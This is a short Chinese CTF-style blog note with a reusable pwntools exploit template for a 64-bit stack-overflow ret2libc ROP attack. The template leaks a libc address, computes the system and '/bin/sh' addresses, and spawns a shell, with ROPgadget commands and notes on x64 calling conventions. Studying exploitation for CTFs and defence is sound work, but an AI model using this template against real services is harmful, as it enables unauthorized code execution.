 ```yaml
---
title: "64位栈溢出rop模板(无PIE)"
date: 2021-07-12T17:35:19+08:00
draft: false
---
```


# 		64位栈溢出rop模板（无PIE）

## exp模板

```python
#!usr/bin/env python
#coding=utf-8
from pwn import *
from LibcSearcher import *

context.log_level = 'debug'
#p = process("./")
p = remote("",)
elf = ELF("./")

read_got = elf.got['read']
printf_plt = elf.plt['printf']
main_addr = elf.sym['main']
pop_rdi = 
#pop_rsi = 
#s_addr = 
#************泄露got*********
payload = b'a'*() + p64(pop_rdi) + p64(read_got)
payload+= p64(puts_plt) + p64(main_addr) #puts-read
#payload = b'a'*() + p64(pop_rdi) + p64(s_addr) + p64(pop_rsi) + p64(read_got)
#payload+= p64(0) + p64(printf_plt) + p64(main_addr) --printf-read
p.sendline( payload)
p.recvuntil('')
read_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
log.info("read_addr => %#x", read_addr)
#*****************************
#***********搜索libc，寻址*******
libc = LibcSearcher("read",read_addr)
offset = read_addr - libc.dump("read")
sys_addr = offset + libc.dump("system")
bin_sh_addr = offset + libc.dump("str_bin_sh")
#***************************
#************get shell************
payload1 = b'a'*() + p64(pop_rdi) + p64(bin_sh_addr) 
payload1+= p64(sys_addr) 

p.sendline(payload1)

p.interactive()

```

## ROPgadget

ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
查找可存储寄存器的代码

 ROPgadget --binary rop --string "/bin/sh"
查找字符串

ROPgadget --binary rop  --only 'int'
查找有int 0x80的地址

## 64位传参

对于x64体系结构，如果函数参数不大于6个时，使用寄存器传参，对于函数参数大于6个的函数，前六个参数使用寄存器传递，后面的使用栈传递。参数传递的规律是固定的，即前6个参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9，后面的依次从 “右向左” 放入栈中。